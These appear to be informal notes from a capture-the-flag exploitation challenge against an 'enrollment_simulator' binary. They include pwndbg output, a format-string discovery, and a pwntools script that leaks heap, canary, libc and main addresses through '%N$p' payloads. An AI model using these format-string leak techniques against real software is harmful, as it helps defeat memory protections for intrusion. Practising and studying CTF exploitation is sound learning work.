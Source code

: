 just realized that there's also the email function which i can use to directly leak content lul 



# many ways does not work 

then I guess now it's time to inspect pwndbg in details

for example i am quite interested in how exactly does it look right after readInput email (specifically and during printf)

also what happens if we overflow the stack location that stores the heap lol variable lol 


hmm.. do I need to add crackets for mutiple layer derefernecing lol 



# reason why email don't work 

```
0x56195fb7349a <enrollment_simulator+222>    mov    rsi, rax                        RSI => 0x7ffc3caec870 —▸ 0x56195fc142a0 —▸ 0x56195fb75f90 (puts@got[plt]) —▸ 0x7f0c829ea760 (puts) ◂—
```

it is just dereferencing a stack location that stores email lol `0x7ffc3caec870`


hmmm or can email and late enrolment work together?

OH WAIT

```
01:0008│-068 0x7ffded270a48 —▸ 0x55dcd66aa2a0 ◂— '%8$pAAAABBBBBBBB'
02:0010│-060 0x7ffded270a50 ◂— 0x796d6d7564 /* 'dummy' */
```

`%8$p` is actually reading the email input

what if...email is an address and we do `%8$s` !!!
OMG!

it worked on local but not on remote (before getting libc version) remote different libc so the location of return address is different on stack (at %27$p differen from `%25$p` from buffer)
(didn't expect this because)

old code first part
```
#gdb.attach(p, s)

# First interaction - input email and reason
p.sendlineafter(b"What would you like to do?", b'1')
p.sendlineafter(b"ITSC email:", b'dummy')
p.sendlineafter(b"late enrollment:", b"%7$p \n%19$p \n%23$p \n%25$p \n")

# Second interaction - view the info
p.sendlineafter(b"What would you like to do?", b'4')
p.recvuntil(b"Reason for late enrollment:\n")
heap = int(p.readline().strip(), 16)
canary = int(p.readline().strip(), 16)
libc_start = int(p.readline().strip(), 16)
main_addr = int(p.readline().strip(), 16)
```
